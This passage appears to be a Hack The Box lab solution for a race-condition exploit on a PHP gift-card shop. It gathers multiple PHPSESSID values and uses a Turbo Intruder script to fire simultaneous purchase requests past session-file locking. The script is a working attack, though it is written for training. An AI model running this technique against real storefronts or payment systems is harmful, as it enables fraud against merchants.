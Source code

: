 Students will notice that the user initially has a 10$ balance, and that gift cards cost 10$, with the flag costing 100$:

![[HTB Solutions/CWEE/z. images/633bd5658222db646b4591cdf75c4013_MD5.jpg]]

To bypass the locks on PHP's session files and exploit the race condition, students need to attain a handful of different PHP session IDs (the more the better) by intercepting the login request and saving the value of `PHPSESSID` returned in the response (in case there is a `Cookie` header present within the first request, students need to remove it):

![[HTB Solutions/CWEE/z. images/00e115ddcefae1c24b3c8a7eca0880b0_MD5.jpg]]

After repeating the process a number of times, students need to sign in again and then intercept the request for buying a gift card:

![[HTB Solutions/CWEE/z. images/83efb3be4ffd35f9288e4d49d7113df1_MD5.jpg]]

Before dropping the request, students need to send it to `Turbo Intruder`:

![[HTB Solutions/CWEE/z. images/da99d5d0864df6e82b8347728f58c838_MD5.jpg]]

Within `Turbo Intruder`, students need to choose `example/race.py` from the drop-down list:

![[HTB Solutions/CWEE/z. images/9bb53d37b45e713d0b0449b68e2bbd2e_MD5.jpg]]

Subsequently, students need to set `PHPSESSID` to `%s` so that `Turbo Intruder` inserts the payload (i.e., session values) there:

Code: http

```http
Cookie: PHPSESSID=%s
```

![[HTB Solutions/CWEE/z. images/ac84df4c27c0b276f7c73e8fbc20f58f_MD5.jpg]]

Moreover, students need to edit the Python script so that it uses the session IDs attained previously to perform the attack:

Code: python

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for sess in ["d4op2eik5tj1tr9k1m3n0e9u46", "b9j7dqeeqkvksqnlfrfr2p4ess", "ofva3tc5ac7t4vvtbr3fe3lfnu", "uobr722pmc5eo6iv66b101qrv6",
                "jvdjve07ah6p569i7kiiu1lini", "1075umvid42uh9ci93cq673nr1", "nqqshn3o4l5sn7i2lmjprspibl", "0hibr9uue7ud89j6pqo93uthut",
                "76mdseshfdl639g26amelkcvhd","ot5ca9mdgl5euenshe9o9g8dql"]:
        engine.queue(target.req, sess, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```
